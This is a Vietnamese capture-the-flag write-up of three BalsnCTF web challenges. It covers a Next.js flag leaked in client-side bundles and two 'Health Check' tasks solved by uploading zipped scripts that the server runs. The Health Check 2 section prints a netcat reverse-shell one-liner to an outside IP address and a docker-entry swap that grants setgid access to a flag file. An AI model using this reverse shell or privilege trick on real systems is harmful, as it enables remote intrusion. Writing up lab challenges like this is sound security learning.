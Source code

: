 # Write-up-BalsnCTF (Web)
### 1. my first app
![image](https://user-images.githubusercontent.com/82523299/188363439-d3381264-6dc6-467b-aadf-5e1508b4b868.png)

- Bài này được viết bằng nextjs, tôi chưa bao giờ học code js cả nên gặp nextjs là ngáo luôn ^^. Và tôi dành ra 1 tiếng để học cấp tốc tại trang https://nextjs.org/learn
- Đây là source và flag nằm ở ![image](https://user-images.githubusercontent.com/82523299/188363832-5d2212d0-d59a-43e1-9a59-fa0974b3dfa5.png)


- Vì không quen với kiểu code web routes nên mãi một hồi tôi mới biết được cách endpoine cái api hello để xuất ra secret ![image](https://user-images.githubusercontent.com/82523299/188363885-cba16781-280a-4203-a25c-abc45f6c8fa1.png)
- Nhưng thứ tôi cần là flag :((
- Trong source index.js tác giả đã `import globalVars from '../utils/globalVars'` để xuất cái title ở index của trang web và biến `globalVars` cũng chứa flag
- ![image](https://user-images.githubusercontent.com/82523299/188364193-53be8df9-c690-4b56-8680-841609a54592.png)
- Và tôi tìm mọi cách để có thể injected vào đây ^^, và rồi phát hiện không có cách nào cả
- Tôi thử search các version của thư viện nhưng đều là last version, ko có lỗi cve => cùng đường :((
- Sau khi quay lại đọc document của nextjs tôi tìm được từ khóa `one page website` đây là kiểu code mà server gửi các file frontend cho client để hướng dẫn client xử lí giảm gánh nặng cho server. Thế là tôi lục code trong DevTools của trang web
- Vì file index đã import globalVars nên data cũng được gửi về client
- ![image](https://user-images.githubusercontent.com/82523299/188365202-1c148fcd-d038-4981-822f-e57cfda31007.png)
#### Flag: BALSN{hybrid_frontend_and_api}

### 2.Health Check 1
![image](https://user-images.githubusercontent.com/82523299/188365589-0033b0b4-77c5-4134-bca1-cdd3b82c0582.png)
- Access tới trang web và nhận được đoạn json như trên
- Sau một hồi fuzz thì web này đúng kiểu chẳng có gì cả :((
- Và rồi dùng dirsearch scan thì ra được đường dẫn `http://fastest-healthcheck.balsnctf.com/docs`
- Tiếp tục fuzz đường dẫn mới và trang mới này cho phép upload 1 file zip chứa 1 file script, sau mỗi 30s server sẽ tự động đi tới và thực thi file script đó, đây là những gì trang web nói, phải đi kiểm chứng thôi ^^
- ![image](https://user-images.githubusercontent.com/82523299/188367367-baad6a7b-be63-487d-8d94-b3e67f80d815.png)

- Lúc đầu tôi up 1 file script viết bằng python và compile thành file elf vì tôi nghĩ chỉ có elf mới thực thi được và nhận được kết quả
- ![image](https://user-images.githubusercontent.com/82523299/188365983-ac7b2b5a-7c8a-4685-885d-77bedc966d39.png)
- Và lại đi google, tôi biết đến bash script bắt đầu thực hiện thôi
- Vì output chỉ trả về trên file nên tôi đã curl để xác định xem script có thật sự được thực thi không
- ![image](https://user-images.githubusercontent.com/82523299/188366450-9f748c56-5a0f-4650-ba82-ea4ee7a26498.png)
- Nhận được request và biết rằng script có hoạt động
![image](https://user-images.githubusercontent.com/82523299/188366605-401882ff-6544-44f2-b9df-bcb7d89a7e47.png)
- Tiếp đến tôi viết luôn script để vét cạn luôn server ^^
- ![image](https://user-images.githubusercontent.com/82523299/188367209-ef691870-5ee2-4866-b6d8-0d8844c23cb6.png)
- ![image](https://user-images.githubusercontent.com/82523299/188368158-e3312c54-d08a-4c6a-a34e-a6ad21be8de1.png)
- Thấy được file flag nhưng nhìn kĩ thì không có quyền read, sau một hồi lục lọi thì trong folder __pycache__ chưa file pyc của file flag1.py 
#### Flag: BALSN{y37_4n0th3r_pYC4ch3_cHa1leN93???}

### 3.Health Check 2
- Tương tự bài Health Check 1 thì bây h tìm cách lây dc file flag2, nhưng đây không phải file python nên ko nằm trong pycache nữa
- Tới đây lại khó khăn, tôi bắt đầu nghĩ đến khái niệm leo thang đặc quyền mà tôi hay nghe thấy, bắt đầu search và học và thử khá nhiều cách và tạch cuối cùng cũng tìm ra cách để giải bài này
- Tôi tìm thầy file này trong source leak ra và nó xử lí file docker-entry 
![image](https://user-images.githubusercontent.com/82523299/188442154-b0e91ad7-80b2-496c-bcdb-36cb0867038c.png)

-File docker-entry2
```
#!/usr/bin/bash
cp flag flag2
chmod 777 flag2
chmod g+s flag2
mv docker-entry docker-entry3
```
- File flag.c
```
int main(void) {
    execl("/usr/bin/cat", "cat", "../../flag2", 0);
}
```
- File run script dùng reverse shell để nc tới server
```
#!/usr/bin/bash
gcc -o flag flag.c
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|sh -i 2>&1|nc 113.119.181.211 1000 >/tmp/f
```
- Nén 3 file trên vào zip rồi up lên sau đó nc ngồi đợi server
- Đổi tên file docker-entry2  thành docker-entry, để server thực thi docker-entry sau đó sẽ gán quyền egid=1000 cho file thực thi flag2
- Cuối cùng là ./flag2 và có flag.
- 
![image](https://user-images.githubusercontent.com/82523299/188469974-a4c53d99-5f8d-4ea7-8eb8-ef6a55677d72.png)
- 
![image](https://user-images.githubusercontent.com/82523299/188470169-d81c2569-cec4-4682-b305-bfecf665377f.png)

#### FLAG: BALSN{d0cK3r_baD_8ad_ro07_B4d_b@d}



